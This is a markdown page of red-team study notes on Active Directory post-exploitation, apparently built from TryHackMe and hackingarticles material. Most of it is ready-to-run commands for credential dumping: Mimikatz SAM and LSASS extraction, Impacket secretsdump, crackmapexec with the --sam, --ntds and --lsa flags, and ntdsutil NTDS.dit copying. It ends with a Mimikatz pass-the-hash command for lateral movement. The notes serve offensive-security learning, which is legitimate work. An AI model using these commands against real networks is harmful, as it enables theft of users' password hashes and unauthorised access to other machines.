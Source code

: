 - After compromising a domain user on the network, the next step is to gather all usernames, hashes, sensitive info., and anything that helps us pivot to compromise other machines within the network.
- This will trigger a lot of noise and will trip off alerts if we are on a stealthy red teaming engagement.


## How to steal hashes of users after getting a foothold?
1. DSync attacks
2. Extracting hashes from NTDS.dit
3. Another method is dumping lsass.exe process which stores hashes for users with active sessions to the computer.

[Credential Dumping using SAM](https://www.hackingarticles.in/credential-dumping-sam/)
```Mimikatz Way
privilege::debug
token::elevate
lsadump::sam
```
Impacket Way of dumping SAM
```Impacket
./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL
```
Using crackmapexec
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --sam
```

[Dumping NTDS.dit](https://www.hackingarticles.in/credential-dumping-ntds-dit/) and [Vault Notes](obsidian://open?vault=THM%20Networks&file=Knowledge%20Base%2FPass-The-Hash%2FWhat%20is%20NTDS-dit)
```Crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds drsuapi
```

```Powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#After this we get the output as hive files which we then transfer back to our local machine

./secretsdump.py -ntds /root/ntds.dit -system /root/SYSTEM LOCAL
#All we need is to provide the path of the SYSTEM hive file and the NTDS.dit file and we are good to go. secretsdump will extract the hashes for us
```

[Dumping LSASS](https://www.hackingarticles.in/credential-dumping-local-security-authority-lsalsass-exe/)
```Task_Manager
In your local machine (target) and open the task manager, navigate to processes for exploring running process of lsass.exe and make a right-click to explore its snippet.  Choose “Create Dump File” option which will dump the stored credential.
```
- After saving the dump file from task manager, use mimikatz to get data out of the `.dmp` file.
```mimikatz
privilege::debug
sekurlsa::minidump C:\Users\raj\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
Empire way
```powershell_empire
usemodule credentials/mimikatz/lsadump
execute
```
Crackmapexec`
```crackmapexec
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --lsa
```
Tools which can be used for getting hashes
1. Mimikatz
[Img](https://github.com/rajatmalhotra7890/Obsidian_AD/blob/main/img/Pasted%20image%2020221010152506.png)

#### There are 2 techniques used for lateral movement for impersonating valid user accounts or service account using hashes
1. `Pass the hash attack`
2. `Over Pass the hash attack`


## 1. Pass-The-Hash - Local Admin rights required
- This is the initial attack where an attacker uses the dumped hashes to perform a valid NTLM authentication without accessing cleartext passwords and see if the compromised user can access other resources or systems on the network.
- So here the attacker impersonates the user from one application to another, they often engage in hash harvesting throughout the system which can be used to access more areas of the network, add account privileges, target a privileged account and set up backdoors and other gateways to enable future access.


- After getting the hashes, now we need to authentication with the stolen password hash using Pass The Hash technique.

Using mimikatz, pass the hash can be conducted by the following command
```
mimikatz sekurlsa::pth /user:<compromised user> /domain:<THROWBACK.local /ntlm:<hash>
```
- Instead of `/ntlm`, we can also use `/aes128` or `/aes256` hash option in Mimikatz




### Another ways to pass the hash
[Blog](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)

